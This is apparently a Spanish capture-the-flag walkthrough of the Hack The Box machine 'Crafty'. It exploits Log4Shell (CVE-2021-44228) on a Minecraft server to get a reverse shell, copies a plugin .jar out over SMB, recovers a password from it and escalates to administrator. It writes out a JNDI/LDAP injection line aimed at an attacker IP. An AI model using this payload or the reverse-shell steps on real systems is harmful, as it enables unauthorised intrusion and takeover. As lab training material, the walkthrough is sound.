--------

Empezamos con la resolución de la máquina, haciendo un **ping** para comprobar si tenemos conexión:



Podemos ver que hay conexión, enviamos un paquete y recibimos un paquete.

El siguiente paso es **escanear los puertos abiertos** de la máquina víctima para ver por donde podemos entrar, para ello usamos _nmap_ para primero hacer un escaneo sencillo:


Esta máquina es algo rara porque aunque tiene **2 puertos abiertos**, uno de ellos tiene un servicio de ***minecraft***. 

Me puse a escanear los puertos abiertos con más profundidad y encontré esto: 



Se puede ver que hay un dominio llamado **crafty.htb**, vamos a incluirlo al archivo */etc/hosts* para ver a donde nos lleva:


Al poner el dominio en el navegador, nos llevará aquí: 




Parece ser un servidor de Minecraft y no hay nada de datos útiles a primera vista, así que podemos buscar contenido oculto en la web con **gobuster**: 


No encontré nada realmente útil aunque volviendo hacia el escaneo con **nmap** se puede ver una versión de Minecraft:


Encontré esta web que habla de una vulnerabilidad de **log4j** que afecta a esta versión de Minecraft: 





Para poder conectarse al servidor de Minecraft, podemos descargarnos esta herramienta: 




Este programa se encuentra en un repositorio de GitHub y es compatible con varios sistemas operativos, en este caso, usaremos para Linux:


Al ejecutarlo, veremos esto:



Nos pedirá la IP de la máquina víctima, aunque podemos poner el nombre de dominio ***crafty.htb*** y funcionará igual:



Lo que tendremos con esto es una terminal en donde podremos ejecutar comandos, pero la dejaremos a un lado porque la usaremos más adelante para ganar acceso a la máquina. 

Empezando a buscar vulnerabilidades para esta máquina, estuve tratando de buscar por códigos CVE que me dieran ideas sobre que tipo de ataque podría hacer, y encontré esto:




Aquí podemos ver una instrucción que se registra con el CVE-2021-44228, que es el CVE que se registra con la vulnerabilidad.



En esta misma sección podremos ver un **payload** que usaremos para tener acceso a la máquina más adelante:



Podemos modificar esta instrucción de esta forma: 

```bash
${jndi:ldap://10.10.16.94/test}
```

Incluimos esto en la consola del servidor de Minecraft y nos ponemos en escucha por el **puerto  389**: 



Hemos recibido una conexión del servidor tratando de acceder al recurso, esto demuestra que el servidor es vulnerable a este tipo de ataques con LDAP. 

Con esto ya en mente, estuve buscando **POCS** del tipo **log4shell** en GitHub basándome en el CVE que encontré antes:


En este resultado encontré un montón de repositorios con este CVE:



Elegimos este: 


Si lo clonamos y vemos que hay dentro, veremos esto:



De primeras solo hay que ejecutar el archivo de Python, pero nos pedirá descargar alguna dependencia:



Para descargarnos esto, nos dirigimos aquí: 


Descomprimimos el archivo y muy importante cambiar el nombre de esta forma:




Nos lo llevamos al mismo directorio donde se encuentra el archivo de Python: 


Y antes de ejecutarlo, editamos el archivo para cambiar el ***/bin/bash*** por ***cmd.exe***: (esto lo hacemos porque la máquina es Windows) 


Ahora nos ponemos en escucha en nuestra máquina atacante: 



Ejecutamos el archivo de Python de esta forma para configurar los parámetros hacia nuestra máquina atacante:



Nos aparecerá este payload tras ejecutarlo: 



Esto mismo lo ponemos en el servidor de Minecraft, y si todo fue correcto: 



Ya tenemos una reverse shell en Windows, y podemos ver la primera flag:



Ahora pasamos a la parte de escalar privilegios del sistema, encontré este directorio **plugins** en el que encontré este archivo '.jar':
 


Podemos ver el contenido de este archivo en nuestra máquina atacante, pero debemos transferirlo primero, podemos hacerlo con un  **servidor smb**:



Ahora nos conectamos con la máquina víctima al servidor: 



A partir de aquí usaremos **Powershell** para no tener problemas con los comandos:



Copiamos el archivo .jar al servidor, con esto ya lo tendremos en la máquina atacante:



Para acceder al contenido del archivo, podemos usar la herramienta **jd-gui**: 



Desde aquí, accedemos al archivo: 


Buscando por dentro, encontré esto que parece ser una contraseña:



Ahora bien, para poder ejecutar cosas como administrador, me cloné esta herramienta de GitHub: 


Solo necesitamos el archivo **.exe**:


Para asegurarme de que el archivo se transfiere bien, lo moví a la sección del sistema Linux donde tenía los archivos compartidos con el servidor SMB:



Abrimos un servidor con Python:


Ahora desde la máquina víctima, nos copiamos el archivo, en este caso yo lo hice desde el directorio **Temp** en una carpeta propia: 



Nos mandaremos una reverse shell para escalar privilegios, primero nos ponemos en escucha:


Desde aquí, podemos lanzarnos una reverse shell con este comando: 


Y si todo va bien, ya podremos ser administrador del sistema: 


